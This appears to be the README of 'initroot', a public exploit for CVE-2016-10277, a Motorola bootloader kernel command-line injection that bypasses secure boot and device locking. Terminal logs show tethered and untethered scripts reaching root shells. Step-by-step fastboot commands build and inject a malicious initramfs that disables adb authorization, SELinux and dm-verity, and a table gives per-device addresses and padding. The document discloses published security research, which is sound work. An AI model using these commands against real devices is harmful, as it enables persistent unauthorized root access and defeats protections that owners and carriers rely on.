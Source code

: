 # initroot: Motorola Bootloader Kernel Cmdline Injection Secure Boot & Device Locking Bypass (CVE-2016-10277) #

By Roee Hay / Aleph Research, HCL Technologies

## First stage exploit: Tethered jailbreak ##

This exploit gains an ephemeral unrestricted root access on the device.
For example, on `cedric` (some messages were removed for readability):

```terminal
$ cd ./tethered/cedric
$ ./initroot-tethered.sh
Welcome to initroot-cedric-tethered
...
(bootloader) <UTAG name="fsg-id" type="str" protected="false">
(bootloader)   <value>
(bootloader)     a initrd=0xA2100000,1588596
(bootloader)   </value>
(bootloader)   <description>
(bootloader)     FSG IDs, see http://goo.gl/gPmhU
(bootloader)   </description>
(bootloader) </UTAG>
OKAY [  0.015s]
finished. total time: 0.015s
target reported max download size of 536870912 bytes
sending 'aleph' (34319 KB)...
OKAY [  1.098s]
writing 'aleph'...
(bootloader) Invalid partition name aleph
FAILED (remote failure)
finished. total time: 1.101s
(bootloader) slot-count: not found
(bootloader) slot-suffixes: not found
(bootloader) slot-suffixes: not found
resuming boot...
OKAY [  0.006s]
finished. total time: 0.006s
uid=0(root) gid=0(root) groups=0(root),1004(input),1007(log),1011(adb),1015(sdcard_rw),1028(sdcard_r),3001(net_bt_admin),3002(net_bt),3003(inet),3006(net_bw_stats),3014(readproc) context=u:r:shell:s0
$ adb shell
cedric:/ # 

```

## Second stage exploit: Untethered jailbreak ##

This exploit gains a persistent root access on the device.
For example, on `athene` (some messages were removed for readabilitiy):

```terminal
$ cd ./untethered/athene

./initroot-untethered.sh 
Welcome to initroot-athene-untethered
Welcome to initroot-athene-tethered
...
(bootloader) <UTAG name="fsg-id" type="str" protected="false">
(bootloader)   <value>
(bootloader)     a initrd=0x92000000,2505052
(bootloader)   </value>
(bootloader)   <description>
(bootloader)     FSG IDs, see http://goo.gl/gPmhU
(bootloader)   </description>
(bootloader) </UTAG>

OKAY [  0.015s]
finished. total time: 0.015s
target reported max download size of 536870912 bytes
sending 'aleph' (35214 KB)...
OKAY [  1.131s]
writing 'aleph'...
(bootloader) Invalid partition name aleph
FAILED (remote failure)
finished. total time: 1.138s
(bootloader) slot-count: not found
(bootloader) slot-suffixes: not found
(bootloader) slot-suffixes: not found
resuming boot...
OKAY [  0.006s]
finished. total time: 0.006s
uid=0(root) gid=0(root) groups=0(root),1004(input),1007(log),1011(adb),1015(sdcard_rw),1028(sdcard_r),3001(net_bt_admin),3002(net_bt),3003(inet),3006(net_bw_stats),3014(readproc) context=u:r:kernel:s0
padC-initroot: 1 file pushed. 11.1 MB/s (22937600 bytes in 1.963s)
44800+0 records in
44800+0 records out
22937600 bytes transferred in 3.017 secs (7602784 bytes/sec)
...
(bootloader) <UTAG name="fsg-id" type="str" protected="false">
(bootloader)   <value>
(bootloader)     a rdinit= root=/dev/mmcblk0p41
(bootloader)   </value>
(bootloader)   <description>
(bootloader)     FSG IDs, see http://goo.gl/gPmhU
(bootloader)   </description>
(bootloader) </UTAG>

OKAY [  0.015s]
finished. total time: 0.015s
rebooting...

finished. total time: 0.815s
uid=0(root) gid=0(root) groups=0(root),1004(input),1007(log),1011(adb),1015(sdcard_rw),1028(sdcard_r),3001(net_bt_admin),3002(net_bt),3003(inet),3006(net_bw_stats),3014(readproc) context=u:r:kernel:s0
athene:/ # 

```

## Producing your own malicious initramfs archive ##

1. Use the commited `initroot-<device>.cpio.gz`, or produce your own:
```
$ cd <initramfs folder>
$ find . | grep -v [.]$ | cpio -R root:root -o -H newc | gzip > ../initroot-<device>.cpio.gz
OR if padding is needed:
$ dd if=/dev/zero of=../pad ibs=1 count=<PAD_SIZE>
$ cp ../pad ../initroot-<device>.cpio.gz && find . | grep -v [.]$ | cpio -R root:root -o -H newc | gzip > ../tmp && ls -la ../tmp && cat ../tmp >> ../initroot-<device>.cpio.gz  && rm -fr ../tmp
$ cd ..
```
2. Our commited initramfs images have adb running as root by default. It will not ask for authorization. In addition, dm-verity is disabled on the relevant partitions
```terminal
fastboot oem config fsg-id "a initrd=<SCRATCH_ADDR+PAD_SIZE>,<initroot.cpio.gz size-PAD_SIZE>"`
fastboot flash foo initroot-<device>.cpio.gz`
fastboot continue
```
3. if you use our initramfs, `adb shell` will now give you a root shell:
```
$ adb shell
shamu:/ # id
uid=0(root) gid=0(root) groups=0(root),1004(input),1007(log),1011(adb),1015(sdcard_rw),1028(sdcard_r),3001(net_bt_admin),3002(net_bt),3003(inet),3006(net_bw_stats),3009(readproc) context=u:r:su:s0
```

## Creating an Untethered exploit for other Moto devices ##

Read our [blog post](https://alephsecurity.com/2017/08/30/untethered-initroot/#persisting-the-payload)


## Verified Devices ##
| Device           | Codename | `SCRATCH_ADDR` | `PADDING`   | committed `initrams` | Unused Partition
|------------------|----------|----------------|-------------|----------------------|---------
| Nexus 6  | `shamu` | `0x11000000`   | `0x0`         | AOSP `userdebug` | `mmcblk0p11`
| Moto G5 (XT1676) | `cedric` | `0xA0100000`   | `0x2000000` | Release, patched `init` and `adbd` to disable SELinux, `set{u,g}id` to shell, capabilities drop and adb auth, etc | `mmcblk0p41`
| Moto G4 (XT1622) | `athene` | `0x90000000`   | `0x2000000` | "" | `mmcblk0p48`


## Community Reported ##
| Device           | Codename | `SCRATCH_ADDR` | Reporter | Description
|------------------|--------------|--------------|--------------|-----------
| Moto G5 Plus  | `potter` |  `0xA0100000` | [drbeat](https://github.com/drbeat)  | Injected boot property. [[proof](https://github.com/alephsecurity/initroot/issues/1)]
| Moto G4 Play (XT1607)  | `harpia` | `0x90000000` | [m-mullins](https://github.com/m-mullins)   | Full Exploitation of  Amazon XT1607. [[proof](https://github.com/m-mullins/InitRoot_Harpia)]
| Moto G4 Play (XT1609)  | `harpia` | `0x90000000` | [@utoprime](https://twitter.com/utoprime)   | Full Exploitation of Verizon XT1609. [[proof](https://twitter.com/utoprime/status/873941023050919936)]
| Moto G4 (XT1625) | `athene` | `0x90000000` | [@EWorcel](https://twitter.com/EWorcel) | Injected initrd that caused boot loops. [[proof](https://twitter.com/roeehay/status/868877672016957440)]  
| Moto G3 | `osprey` | `0x90000000` | [@asiekierka](https://twitter.com/asiekierka) | Injected initrd that caused boot loops. [[proof](https://twitter.com/asiekierka/status/873467107090075648)]
| Moto G2 (XT1072) | `thea` | `0x11000000`  | [@TheElix](https://disqus.com/by/TheElix/) | Injected initrd caused boot loops. [[proof](https://disqus.com/home/discussion/alephsecurity/initroot_hello_moto/#comment-3355705740)]
| Moto G (XT1032) | `falcon_retfr` | `0x11000000`  | [Pierre Zurek](https://disqus.com/by/pierrezurek/) | Full Exploitation with 64MB padding [[proof](http://disq.us/p/1l1uqgb)]
| Moto E (XT830C) | `condor_cdma` | `0x0E000000`  | [fetcher](https://disqus.com/by/disqus_U4zRE0u275/) | Full Exploitation of XT830C locked to Tracfone/Verizon with a 32MB padding [[proof](https://alephsecurity.com/2017/06/07/initroot-moto/#comment-3379229648)]
| Other | - | - | [@jcase](https://twitter.com/jcase) | [[proof](https://twitter.com/jcase/status/868930263782313984)]

## Note ##
This vulnerability may affect other Motorola devices too: a different initramfs will be needed. A different physical address of initrd (`SCRATCH_ADDR`). `PADDING` may vary as well.

## Video Demo ##

[![Video Demo of CVE-2016-10277](http://img.youtube.com/vi/dijRMpv4ktM/0.jpg)](https://www.youtube.com/watch?v=dijRMpv4ktM)

## Publications ##
1. [initroot: Bypassing Nexus 6 Secure Boot through Kernel Command-line Injection](https://alephsecurity.com/2017/05/23/nexus6-initroot/)
2. [initroot: Hello Moto](https://alephsecurity.com/2017/06/07/initroot-moto/)
3. [Motorola Android Bootloader Kernel Cmdline Injection Secure Boot Bypass](https://alephsecurity.com/vulns/aleph-2017011)
4. [Untethered initroot (USENIX WOOT '17)](https://alephsecurity.com/2017/08/30/untethered-initroot)
5. [USENIX WOOT '17 paper](https://www.usenix.org/conference/woot17/workshop-program/presentation/hay)


